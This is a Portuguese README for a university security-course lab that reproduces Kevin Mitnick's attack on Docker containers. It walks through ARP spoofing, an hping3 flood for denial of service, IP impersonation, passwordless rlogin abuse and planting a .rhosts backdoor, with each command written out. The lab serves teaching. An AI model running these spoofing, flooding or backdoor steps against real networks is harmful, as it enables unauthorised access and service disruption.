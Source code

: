 # Mitnick Attack

## **Requisitos**

- docker
- docker compose

## **Contexto**

Este é o trabalho para a disciplina de Segurança Computacional da Universidade Federal do Paraná. O objetivo é reproduzir o ataque de Kevin Mitnick e demonstrar que é possível obter acesso a uma rede interna sem a necessidade de um ataque de força bruta.

***

## [Entendendo o ataque de Mitnick](https://seedsecuritylabs.org/Labs_16.04/PDF/Mitnick_Attack.pdf)

Basta seguir o link acima.

***

## **Entendendo nossa versão do ataque**

### **estrutura geral**

Nossa topologia consistirá de 3 containers docker:

1. [attacker](./docker-compose.yml#L29)
2. [trusted_server](./docker-compose.yml#L17)
3. [x-terminal](./docker-compose.yml#L5)

Os três containers estão na mesma rede e conseguem se enxergar. Entretanto, existe uma relação de confiança entre o trusted_server e o x-terminal. O x-terminal é um terminal que só pode ser acessado, sem a necessidade de senha, a partir do trusted_server.

O sistema de acesso remoto será feito usando rlogin.

### **x-terminal**

A máquina x-terminal possui um usuário chamado "fontoura" com senha "fontoura".

### **attacker**

A máquina attacker é uma máquina que está tentando acessar o x-terminal. Ela não tem acesso direto ao x-terminal mas tem acesso a rede interna.

### **trusted_server**

A máquina trusted_server é uma máquina que tem acesso direto ao x-terminal. Ela é a única máquina que pode acessar o x-terminal.

A largura de banda do trusted_server é limitada, para simular uma interface de rede lenta e sucetível a ataques de negação de serviço.

### **Ataque**

O ataque será feito em 5 etapas:

1. **Arp Spoofing**
2. **Negação de serviço**
3. **Personificação**
4. **Invasão**
5. **Backdoor**

Cada etapa será abordada em detalhes a seguir.

***

## **Como executar**

1. **Iniciando as máquinas**

    ```bash
    docker-compose up -d
    ```

2. **Acessando as máquinas**

    Para acessar cada uma das máquinas. Em três terminais diferentes, execute os seguintes comandos, um em cada terminal:

    ```bash
    docker exec -it trusted_server bash
    docker exec -it attacker bash
    docker exec -it victim bash
    ```

    Para explorar a relação de confiança entre o trusted_server e o x-terminal, execute o seguinte comando no **terminal do trusted_server:**

    ```bash
    rlogin -l fontoura x-terminal
    ```

    Isso fará com que o usuário fontoura seja logado no x-terminal sem a necessidade de uma senha.

    Agora, para verificar que o x-terminal não pode ser acessado por outras máquinas, execute o seguinte comando no **terminal do attacker:**

    ```bash
    rlogin -l fontoura x-terminal
    ```

    O comando acima tentará realizar o login no x-terminal. Como o attacker não é o trusted_server, o login necessitará de uma senha.

    **Obs.:** Em alguns cenários o docker manipula o iptables da máquina host. Caso sua politica de FORWARD esteja DROP, execute: `sudo iptables -P FORWARD ACCEPT`.

    Para verificar a politica de FORWARD, execute: `sudo iptables -L FORWARD`.

3. **Realizando o arp spoofing**

    Para realizar o arp spoofing, execute o seguinte comando no **terminal do attacker:**

    ```bash
    arpspoof -i eth0 -t 172.28.1.2 172.28.1.3
    ```

    O comando acima faz com que o attacker se passe pelo trusted_server para o x-terminal. Envenenando a tabela arp do x-terminal.

    É possível verificar que o arp spoofing foi realizado com sucesso executando o seguinte comando no **terminal do x-terminal**:

    ```bash
    arp -a
    ```

    Podemos ver que o trusted-server está na tabela arp do x-terminal com o endereço MAC do attacker.

4. **Realizando a negação de serviço**

    Para realizar a negação de serviço, execute o seguinte comando no **terminal do attacker:**

    ```bash
    hping3 --flood --rand-source 172.28.1.3
    ```

    O comando fará um flood de pacotes no trusted_server. O objetivo é saturar a largura de banda do trusted_server, fazendo com que ele não consiga mais responder as requisições do x-terminal ou se comunicar com a rede.

5. **Realizando a personificação**

    Para realizar a personificação, iremos mudar o IP do attacker para o IP do trusted_server. Para isso, execute o seguinte comando no **terminal do attacker:**

    ```bash
    ifconfig eth0 172.28.1.3
    ```

    Agora, o attacker está se passando pelo trusted_server para o x-terminal.

6. **Invadindo**

    Para verificar que a personificação foi realizada com sucesso, podemos tentar realizar o login sem senha em x-terminal. A partir do attacker, execute o seguinte comando:

    ```bash
    rlogin -l fontoura x-terminal
    ```

    O comando acima tentará realizar o login no x-terminal. Como o attacker está se passando pelo trusted_server, o login será realizado com sucesso e o usuário fontoura será logado no x-terminal sem a necessidade de uma senha.

7. **configurando o backdoor**

    Para abrir a conexão através do rlogin ao x-terminal para o attacker, execute o seguinte comando no **terminal do x-terminal**:

    ```bash
    echo '172.28.1.4 root' >> /home/fontoura/.rhosts
    ```

    Isso permitirá que o attacker se logue no x-terminal sem a necessidade de uma senha.

8. **Conclusão**

    Com o backdoor configurado, podemos retornar o IP do attacker para o seu IP original. Para isso, execute o seguinte comando no **terminal do attacker:**

    ```bash
    ifconfig eth0 172.28.1.4
    ```

    Para verificar que o backdoor está funcionando, execute o seguinte comando no **terminal do attacker:**

    ```bash
    rlogin -l fontoura x-terminal
    ```

    Se o backdoor estiver funcionando, o usuário fontoura será logado no x-terminal sem a necessidade de uma senha.

    Para conferir que os pacotes não estão passando pelo trusted_server, execute o seguinte comando no **terminal do attacker:**

    ```bash
    tcpdump -i eth0 tcp port 513
    ```

    O comando acima irá capturar os pacotes que estão sendo enviados para o x-terminal. Como o attacker está se passando pelo trusted_server, os pacotes não devem passar pelo trusted_server.

***

## Autores

- Guiusepe Oneda - GRR20210572
- Vinícius Fontoura - GRR20206873
